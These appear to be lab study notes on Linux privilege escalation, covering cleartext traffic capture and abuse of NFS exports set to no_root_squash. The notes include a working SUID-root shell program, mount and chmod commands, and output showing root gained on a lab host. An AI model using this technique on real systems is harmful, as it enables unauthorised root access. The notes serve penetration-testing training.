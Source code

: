 ### Passive Traffic Capture

If *tcpdump* is installed, unprivileged users may be able to capture network traffic, including, in some cases, credentials passed in cleartext. Several tools exist, such as *net-creds* and *PCredz* that can be used to examine data being passed on the wire. This may result in capturing sensitive information such as credit card numbers and SNMP community strings. It may also be possible to capture Net-NTLMv2, SMBv2, or Kerberos hashes, which could be subjected to an offline brute force attack to reveal the plaintext password. Cleartext protocols such as HTTP, FTP, POP, IMAP, telnet, or SMTP may contain credentials that could be reused to escalate privileges on the host.


### Weak NFS Privileges

Any accessible mounts can be listed remotely by issuing the command `showmount -e`, which lists the NFS server's export list (or the access control list for filesystems) that NFS clients.

```bash
$ showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

When an NFS volume is created, various options can be set:
| Option | 	Description |
| ------- | ------ |
| root_squash | If the root user is used to access NFS shares, it will be changed to the nfsnobody user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the nfsnobody user, which prevents an attacker from uploading binaries with the SUID bit set. |
| no_root_squash | 	Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set. |

### to see all nfs partitions

```bash
$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

### Exploit ideation
For example, we can create a SETUID binary that executes /bin/sh using our local root user. We can then mount the /tmp directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

First, create a simple binary, mount the directory locally, copy it, and set the necessary permissions.

```bash
$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```bash
htb@NIX02:/tmp$ gcc shell.c -o shell
```

```bash
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

When we switch back to the host's low privileged session, we can execute the binary and obtain a root shell.

```bash
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```



### Hijacking Tmux Sessions

> check net for better exploit
